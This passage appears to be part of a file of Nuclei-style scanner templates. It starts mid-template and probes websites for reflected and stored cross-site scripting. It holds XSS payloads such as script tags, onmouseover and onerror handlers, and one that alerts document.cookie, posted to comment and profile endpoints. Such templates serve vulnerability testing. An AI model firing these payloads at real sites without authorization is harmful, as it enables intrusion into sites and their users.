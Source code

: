     path:
      - "{{BaseURL}}?q={{xss}}"
      - "{{BaseURL}}?search={{xss}}"
      - "{{BaseURL}}?query={{xss}}"
    payloads:
      xss:
        - "<script>alert(1)</script>"
        - "javascript:alert(1)"
        - "\" onmouseover=\"alert(1)\""
    matchers:
      - type: word
        part: body
        words:
          - "<script>alert(1)</script>"
          - "javascript:alert(1)"
          - "onmouseover=\"alert(1)\""
        condition: or
      - type: status
        status:
          - 200

# Template 2: Stored XSS in Forms
id: stored-xss-form
info:
  name: Stored XSS in Form Inputs
  author: custom-hunter
  severity: high
  tags: xss, stored
http:
  - method: POST
    path:
      - "{{BaseURL}}/comment"
      - "{{BaseURL}}/profile/update"
    headers:
      Content-Type: application/x-www-form-urlencoded
    body: "comment={{xss}}&name=test"
    payloads:
      xss:
        - "<script>alert(document.cookie)</script>"
        - "<img src=x onerror=alert(1)>"
    matchers:
      - type: word
        part: body
        words:
          - "<script>alert(document.cookie)</script>"
          - "onerror=alert(1)"
        condition: or
      - type: status
        status:
          - 200
          - 302
  - method: GET
    path:
      - "{{BaseURL}}/comments"
      - "{{BaseURL}}/profile"
    matchers:
      - type: word
        part: body
        words:
          - "<script>alert(document.cookie)</script>"
          - "onerror=alert(1)"
        condition: or